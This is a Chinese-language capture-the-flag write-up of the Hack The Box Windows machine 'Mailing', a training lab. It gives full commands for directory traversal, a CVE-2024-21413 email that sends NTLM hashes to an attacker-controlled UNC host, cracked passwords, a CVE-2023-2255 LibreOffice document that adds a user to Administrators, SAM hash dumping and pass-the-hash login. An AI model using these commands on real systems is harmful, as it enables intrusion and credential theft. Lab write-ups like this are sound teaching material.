## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O -Pn mailing.htb
```



开放端口：`25`、`80`、`110`、`135`、`139`、`143`、`445`、`465`、`587`、`993`

Server：`hMailServer`

### Dirsearch

```
dirsearch -u mailing.htb -t 50
```



进入`http://mailing.htb`

点击Download，就是/download.php


## Directory Traversal

进行抓包，发现可以下载文件



尝试修改`file`参数，成功得到`hosts`文件



目前这个php文件至少能够读取文件

由于刚才`Nmap` ，扫描出来邮件服务是`hMailServer`

经过搜索以及`ChatGPT`，获取到路径为：`C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini`



MD5解密后获得明文：`homenetworkingadministrator`



回到之前的`instruction.pdf`，在ending那里，发送第一封邮件之后，Maya会读取我们的邮件



通过pop3端口连接邮箱，不过里面什么都没有



## CVE-2024-21413

Github：

先打开监听器

```
responder -I tun0 -v
```

运行`poc`

```
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\10.10.16.8\PoC' --subject "Hello world"
```





在监听器处收到hash，尝试解密


得到maya的密码：`m4y4ngs4ri`

由于ssh端口没有开，不过可以测试winrm的端口`5985`



## Evil Winrm

```
evil-winrm -i mailing.htb -u maya -p 'm4y4ngs4ri'
```



成功进入。

在桌面拿到`user.txt`



## Privilege Escalation

在`Program Files` 文件夹下发现一个`LibreOffice`



将其License文件下载下来看



在`readme`中发现版本信息



### CVE-2023-2255

Github：[elweth-sec/CVE-2023-2255: CVE-2023-2255 Libre Office (github.com)](https://github.com/elweth-sec/CVE-2023-2255)

发现C盘下面的`Important Document`文件夹具有特殊权限



管理员和系统账户对目录有完全控制权限。Maya用户和已认证用户对目录具有修改权限。

```
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'
```

直接把maya加到管理员组里面去



稍等一会



使用`crackmapexec`来获取localadmin的哈希值

```
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
```



最后使用`impacket-wmiexec`传入hash值登录

```
impacket-wmiexec localadmin@mailing.htb -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"
```



## Summary

CVE-2024-21413获取hash原理：在邮件的 `--url` 参数中指定了一个 UNC 路径（`\\10.10.16.8\PoC`）。UNC 路径通常用于网络共享，当目标系统处理这个路径时，它会尝试与指定的服务器（`10.10.16.8`）建立连接。

在 Windows 系统中，当系统尝试访问 UNC 路径时，它可能会自动尝试进行身份验证。这个身份验证过程中，Windows 会发送 NTLMv2 哈希来验证用户身份。如果 `responder` 正在监听这个网络请求，它可以捕获这些哈希值。

如果这些哈希值能够被破解，那么就能够登录相应的服务或者系统。

NTLM 哈希认证机制的特性：NTLM 认证通常与 SMB协议配合使用，通常会使用 TCP 445 端口进行通信。NTLM 认证的机制允许通过密码的哈希值进行身份验证，`impacket-wmiexec`使用 NT 哈希（通过 Pass-the-Hash 技术）来模拟用户身份，从而无需输入密码就能执行远程命令。

windows的题目还是接触太少了😥
